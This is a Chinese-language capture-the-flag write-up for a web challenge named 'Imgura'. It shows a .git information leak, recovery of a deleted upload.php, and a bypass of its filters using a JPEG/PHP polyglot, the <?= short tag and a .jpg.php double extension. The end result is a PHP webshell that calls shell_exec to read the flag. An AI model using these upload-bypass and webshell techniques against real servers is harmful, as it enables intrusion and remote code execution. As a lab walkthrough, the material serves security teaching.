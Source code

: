 # HW - Imgura
###### tags: `資安` `Web`

## 題目解析
根據題目給的連結點進來可以看到一個建構中網頁，沒有什麼東西可以按，F12 source code 看起來也沒甚麼可以利用的東西。
![](https://i.imgur.com/Pi4Wrl6.png)

## 解題流程
### Information Leak
在沒什麼明顯可攻擊方向的情況下，先試試看網頁是否有 Infrmarion Leak，如果有我們應該可以收集到一些東西，因為我這時候沒安裝 DotGit，所以沒有及時發現有 .git 的 Information Leak，是後來稍微手動試了一下，才發現是有 .git Information Leak 的。

### Git Hack
確認有 .git 的 Information Leak 後用可以用 githack 工具把 /.git 整個 repository 都 hack 下來。
- https://github.com/WangYihang/GitHacker
- https://github.com/denny0223/scrabble

當然如果你有裝 Dotgit 的 chrome 插件，也是可以直接把 .git 資料夾壓縮載下來的。

載下來後進到 .git/ 目錄裡，下 git log 指令可以看到有兩次 commit ，第二次 commit 是刪除某些東西。

![](https://i.imgur.com/3J1Nikn.png)

想要看到第二次 commit 詳細做了什麼，可以下 git show (預設是最新一筆 commit 內容) 或 git log -p 指令，這裡就很明顯看到刪掉了 dev_test_page 目錄底下的一些頁面，但在 git 刪掉不代表 web server 上也刪掉了，如果網頁工程師沒有再次打包上傳，這些頁面實際上還是會存在 web server 上的。

![](https://i.imgur.com/JPdF08S.png)

### LFI

嘗試連進隱藏網址，發現有一個 upload 功能。

![](https://i.imgur.com/Zfbs7PL.png)

而看到 upload 功能，相信大家都會很直覺的想到 LFI。

![](https://i.imgur.com/Aod1lPS.png)

試著上傳一張圖片，可以看到他直接是跳轉去讀取該圖片，所以我們若能上傳一張帶有 webshell 的圖片，理論上就能透過自動跳轉讀取圖片的動作，達成 LFI。

![](https://i.imgur.com/MoiJK2t.png)

做到這一步大概就有個大方向了，可以看看這些網頁的 source code 是否有對 LFI 的一些限制。因為我們已經有了整個 git 的 repository，依照 git 的規定，git repository 所有　object 都存放在 object 目錄下，git 存放 object 的方式是由 header + content 過 SHA-1 共 40 字元，前 2 字元是子目錄，其餘是檔名。
![](https://i.imgur.com/yUKzSBS.png)

因此我們可以用 git cat-file -p 2f35 的指令來查看想看的檔案內容 (2f35 舉例)，透過這樣的方式可以查看所有頁面的 source code。
![](https://i.imgur.com/mRFa2cT.png)

也可以知道整個 dec_test_page 目錄下的架構。
![](https://i.imgur.com/9M5Yv8K.png)

![](https://i.imgur.com/QxgpF3Q.png)

sorce code 比較重要的就是 upload.php，可以看到有對檔案上傳做很多限制。
```php=
<?php
if (!file_exists($_FILES['image_file']['tmp_name']) || !is_uploaded_file($_FILES['image_file']['tmp_name'])) {
    die('Gimme file!');
}

$filename = basename($_FILES['image_file']['name']);
$extension = strtolower(explode(".", $filename)[1]);

if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
    die("Invalid file extension: $extension.");
}

if ($_FILES['image_file']['size'] > 256000) {
    die('File size is too large.');
}

// check file type
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$type = finfo_file($finfo, $_FILES['image_file']['tmp_name']);
finfo_close($finfo);
if (!in_array($type, ['image/png', 'image/jpeg'])) {
    die('Not an valid image.');
}

// check file width/height
$size = getimagesize($_FILES['image_file']['tmp_name']);
if ($size[0] > 512 || $size[1] > 512) {
    die('Uploaded image is too large.');
}


$content = file_get_contents($_FILES['image_file']['tmp_name']);
if (stripos($content, "<?php") !== false) {
    die("Hacker?");
}

$prefix = bin2hex(random_bytes(4));
move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
header("Location: images/${prefix}_${filename}");
```



### 製作 webshell 圖片
為了符合 upload.php 的檔案限制，先隨便找一張圖 (這邊用 black.jpg)，接著製作 webshell，因為 upload.php 有擋<?php 的 tag，所以我先試著用了<? php section ?>，發現 server 並沒有啟用短標記，因此改用 <?=，這個是另類 php tag，<?=的意思等於 <?php echo 因此比較不一樣的是你在裡面不用 echo 他就會自動幫你把東西 echo 出來了。

webshell 的部分，我是先用phpinfo()來試能不能順利做到 LFI。
```php
<?=
	phpinfo();
```

透過指令將 webshell 寫進圖片後面，如此可以讓檔案帶著 jpg 的 MIME type，上傳才不會被 MIME type 檢查擋掉，另外在上傳前把檔名改成 b.jpg.php (.jpg.php 後輟)，躲避檔案 extension 的判斷，最後在上傳檔案是時選擇 all file 就可以看到 .jpg.php 檔案，並進行上傳。
```
cat black.jpg > b.jpg
cat webshell.txt >> b.jpg
mv b.jpg b.jpg.php
```
![](https://i.imgur.com/GuF5WfH.png)

### LFI => RCE
上傳後他自動跳轉到圖片，可以看到 server 成功執行我們塞入的 webshell，顯示了 phpinfo()。
![](https://i.imgur.com/NWvSWcI.png)

確定可以做到 LFI 後把 webshell 稍微改一下，加入 shell_exec()，塞進圖片再上傳就可以做到 RCE，稍微找一下就可以看到 FLAG 了！
```php
<?=
	$a = shell_exec("cd /; cat this_is_flaggggg");
	phpinfo();
?>
```

## FLAG 截圖
![](https://i.imgur.com/tVm2Hot.png)

